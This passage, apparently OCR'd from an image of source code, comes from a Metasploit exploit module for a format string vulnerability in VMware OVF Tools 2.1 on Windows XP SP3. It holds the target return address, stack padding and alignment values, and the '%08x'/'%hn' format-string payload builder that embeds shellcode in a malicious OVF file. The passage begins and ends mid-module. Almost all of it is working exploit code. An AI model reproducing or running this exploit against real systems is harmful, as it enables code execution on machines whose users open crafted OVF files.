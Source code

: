 ```Ruby
          'StackAdjustment' => -3500,
          'PrependEncoder' => "\x54\x59", # push esp # pop ecx
          'EncoderOptions' =>
            {
              'BufferRegister' => 'ECX',
              'BufferOffset' => 6
            }
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          # vmware-ovftool-2.1.0-467744-win-i386.msi
          [ 'VMWare OVF Tools 2.1 on Windows XP SP3',
            {
              'Ret' => 0x7852753d,  # call esp # MSVCR90.dll 9.00.30729.4148 installed with VMware OVF Tools 2.1
              'AddrPops' => 98,
              'StackPadding' => 38081,
              'Alignment' => 4096
            }
          ],
        ],
      'Privileged'     => false,
      'DisclosureDate' => '2012-11-08',
      'DefaultTarget'  => 0))

    register_options(
      [
        OptString.new('FILENAME', [ true, 'The file name.',  'msf.ovf']),
      ])
  end

  def ovf
    my_payload = rand_text_alpha(4) # ebp
    my_payload << [target.ret].pack("V") # eip # call esp
    my_payload << payload.encoded

    fs = rand_text_alpha(target['StackPadding']) # Padding until address aligned to 0x10000 (for example 0x120000)
    fs << rand_text_alpha(target['Alignment']) # Align to 0x11000
    fs << my_payload
    # 65536 => 0x10000
    # 27    => Error message prefix length
    fs << rand_text_alpha(65536 - 27 - target['StackPadding'] - target['Alignment'] - my_payload.length - (target['AddrPops'] * 8))
    fs << "%08x" * target['AddrPops'] # Reach saved EBP
    fs << "%hn" # Overwrite LSW of saved EBP with 0x1000

    ovf_file = <<-EOF
<?xml version="1.0" encoding="UTF-8"?>
<Envelope vmw:buildId="build-162856" xmlns="http://schemas.dmtf.org/ovf/envelope/1"
xmlns:cim="http://schemas.dmtf.org/wbem/wscim/1/common"
xmlns:ovf="http://schemas.dmtf.org/ovf/envelope/1"
xmlns:rasd="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/CIM_ResourceAllocationSettingData"
xmlns:vmw="https://www.vmware.com/schema/ovf"
xmlns:vssd="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/CIM_VirtualSystemSettingData"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <References>
    <File ovf:href="Small VM-disk1.vmdk" ovf:id="file1" ovf:size="68096" />
  </References>
  <DiskSection>
    <Info>Virtual disk information</Info>
```